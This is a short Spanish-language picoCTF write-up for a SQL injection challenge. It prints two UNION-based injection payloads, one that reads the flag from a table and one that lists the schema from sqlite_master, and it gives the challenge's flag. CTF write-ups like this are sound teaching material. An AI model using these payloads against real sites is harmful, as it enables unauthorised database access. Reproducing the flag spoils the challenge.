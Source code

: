 
### Descripción 
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.
### Solución
Conociendo el nombre de la tabla a buscar, buscamos la bandera con la siguiente sentencia 
	**'union select id,flag,3 from more_table;**

Solución: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}**
### Notas adicionales
	SQL injection consiste en poner una sentencia maliciosa sql mediante una entrada en la pagina web 

	Mediante la siguiente sentencia revisamos la estructura de las tablas 'union select sql,2,3 from sqlite_master;

	También se puede con burpSuite interceptando la solicitud post, en la respuesta sale la bandera
### Referencias 
https://www.youtube.com/watch?v=clMe4yqL6yU&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=63
